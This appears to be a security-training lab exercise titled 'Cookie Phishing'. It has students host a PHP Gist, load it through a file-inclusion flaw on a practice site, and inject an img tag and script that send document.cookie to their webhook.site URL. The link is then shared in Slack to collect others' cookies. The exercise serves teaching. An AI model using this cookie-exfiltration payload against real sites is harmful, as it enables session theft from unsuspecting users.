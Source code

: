 # Cookie Phishing

## Instructions
- Navigate to: <https://gist.github.com>

- Create a new Gist that includes the PHP below:

  ```php
  <?php
  $html <<<EOF
  <!-- Your HTML goes here! >

  EOF;

  echo $html;
  ?>
  ```

- Next, add your `img` tag from the previous exercise to the PHP, right below the line that says `<!-- Your HTML goes here! >`.

- Save the Gist, and load the raw link at the vulnerable site at: <http://ptl-08a17b2b-81673f5e.libcurl.so/?page=intro.php>

- Return to Webhook, and ensure that it received a new request.

- Next, update the `src` attribute of your `img` tag to look like the below. 
  - This image tag will make a request t oyour Webhook log, but include cookiie data, _or_ a message if the user has no cookies.

  ```html
  <img src="https://webhook.site/$/<Your Webhook URL>?cookie="+(document.cookie||"nocookie!") />
  ```

- Finally, add your `img` tag from above to the code below. Then, add this script to your Gist; update it; and load it with the vulnerable site.

  ```html
  <script>
  document.write('<Your img tag here')
  </script>
  
  ```

- Check your Webhook to ensure you're receiving requests. 
  - What do you notice as your `cookie` value?
  - **Note**: You may have to double-check your syntax!

- When you verify that you're receiving requests, drop the link in Slack, and watch your logs.
